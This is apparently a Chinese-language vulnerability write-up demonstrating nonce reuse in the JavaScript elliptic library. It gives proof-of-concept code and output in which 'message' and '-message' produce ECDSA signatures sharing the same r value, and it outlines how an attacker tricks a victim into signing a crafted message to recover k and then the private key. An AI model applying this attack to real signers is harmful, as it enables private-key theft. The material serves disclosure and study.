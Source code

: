   
代码示例：  
```
const elliptic = require('elliptic');
const crypto = require('crypto');

const { ec: EC } = elliptic;

const privateKey = crypto.getRandomValues(new Uint8Array(32))
const curve = 'secp256k1';
const ec = new EC(curve);

const prettyprint = ({ r, s }) => `r: ${r}, s: ${s}`

const msg1 = 'message';
const msg2 = '-message';

console.log('\n原始消息:');
console.log('msg1:', msg1);
console.log('msg2:', msg2);

const sig1 = prettyprint(ec.sign(msg1, privateKey));
const sig2 = prettyprint(ec.sign(msg2, privateKey));

console.log('签名结果:');
console.log('sig1:', sig1);
console.log('sig2:', sig2);
```  
  
  
运行输出：  
```
原始消息:
msg1: message
msg2: -message
签名结果:
sig1: r: 104603683070405608893121994772569954579668786354993804047147606840356574004233, s: 45238971282208969875952227936984289798913868693111844367904834409773355688280
sig2: r: 104603683070405608893121994772569954579668786354993804047147606840356574004233, s: 33413981207006126473424310277806110366155448264152524923855174498663885342744
```  
  
  
msg1 = "message" 和 msg2 = "-message" 经过 BN 转换后，生成了相同的 nonce（elliptic 的设计接受十六进制字符串作为可能的输入类型之一）。由于 nonce 相同，导致 HMAC_DRBG 生成的 k 也相同。从签名结果中可以看到，r 值完全相同，这正是 k 复用的直接表现。  
  
  
完整攻击流程：  
  
  
1. 模拟受害者签名一条正常的消息，获取消息 msg0 和签名 sig0。  
  
2. 攻击者构造恶意消息 msg1，并诱导受害者进行签名，获得 sig1。  
  
3. 利用 k 复用漏洞，从 (r, s1) 和 (r, s2) 计算 k。  
  
4. 利用 k 进一步计算出私钥 d，攻击成功。  
  